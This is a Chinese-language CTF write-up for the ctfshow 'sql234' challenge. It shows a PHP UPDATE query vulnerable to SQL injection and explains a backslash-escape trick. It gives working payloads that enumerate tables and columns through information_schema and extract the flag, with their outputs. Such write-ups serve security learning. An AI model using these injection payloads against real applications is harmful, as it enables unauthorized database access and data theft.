# ctfshow-sql234



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623





 查询语句 

```
  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
```



 返回逻辑 

```
  //无过滤

```





```mysql
很遗憾单引号被过滤了，但是巅峰极客刚刚考过，用\实现逃逸
原来的语句是
$sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
但是传入单引号后
$sql = "update ctfshow_user set pass = '\' where username = 'username';";
这样pass里面的内容就是' where username =,接下来username里面的参数就是可以控制的了


mysql中不支持子查询更新，准确的说是更新的表不能在set和where中用于子查询。那串英文错误提示就是说，不能先select出同一表中的某些值，再update这个表(在同一语句中)。
update 同一个表注入方法
https://www.cnblogs.com/duanxz/p/5099030.html




# username=,username=(select group_concat(table_name) from information_schema.columns where table_schema=database())-- - &password=\

banlist,banlist,ctfshow_user,ctfshow_user,ctfshow_user,flag23a,flag23a,flag23a


# username=,username=(select group_concat(column_name) from information_schema.columns where table_name=0x666c6167323361)-- - &password=\
# username=,username=(select group_concat(column_name) from information_schema.columns where table_name=flag23a)-- - &password=\


id,flagass23s3,info

# username=,username=(select flagass23s3 from flag23a)-- - &password=\


ctfshow{00ad2fa0-34dd-463c-b430-2466157348bc}
```























